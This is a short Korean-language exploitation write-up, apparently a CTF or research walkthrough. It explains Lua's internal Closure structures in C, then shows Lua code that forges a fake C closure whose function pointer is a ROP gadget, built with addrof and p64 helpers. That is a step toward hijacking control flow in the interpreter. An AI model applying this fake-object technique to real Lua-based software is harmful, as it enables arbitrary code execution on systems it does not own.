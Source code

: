 Lua에서는 함수 또한 하나의 오브젝트(`Closure`)로 다루고 이는 아래와 같이 정의되어 있습니다

```c
#define ClosureHeader \
        CommonHeader; lu_byte isC; lu_byte nupvalues; GCObject *gclist; \
        struct Table *env
typedef struct CClosure {
  ClosureHeader;
	//CommonHeader
	  //GCObject *next;
	  //lu_byte tt;
	  //lu_byte marked;
  //lu_byte isC;
  //lu_byte nupvalues
  //GCObject *gclist
  //struct Table *env
  
  lua_CFunction f;
  TValue upvalue[1];
} CClosure;

typedef struct LClosure {
  ClosureHeader;
  //CommonHeader
	//GCObject *next;
	  //lu_byte tt;
	  //lu_byte marked;
  //lu_byte isC;
  //lu_byte nupvalues
  //GCObject *gclist
  //struct Table *env
  
  struct Proto *p;
  UpVal *upvals[1];
} LClosure;

typedef union Closure {
  CClosure c;
  LClosure l;
} Closure;
```

`Closure` 오브젝트는 C built-in 함수를 호출하는 `CClosure`와 Lua 함수를 호출하는 `LClosure`의 공용체로 `ClosureHeader`의 `isC` 필드의 값에 따라 `CClosure`나 `LClosure`로 처리됩니다.

위 구조를 참고하여 정의된 `fake_function`의 구조를 분석하면 아래와 같습니다

```lua
-- gadget1 : mov rdi, qword ptr [rax] ; mov rax, qword ptr [rdi + 0x38] ; call qword ptr [rax + 0x10];
local fake_function = (
    p64(addrof(arg1) + 0x18) -- 00h
    .. p64(0x010106) -- tt:6(LUA_TFUNCTION), marked:1, isC:1
    .. p64(0)
    .. p64(0)
    .. p64(gadget1) -- lua_CFunction f:gadget1
    .. p64(0)
    .. p64(0)
    .. p64(0)
)
```
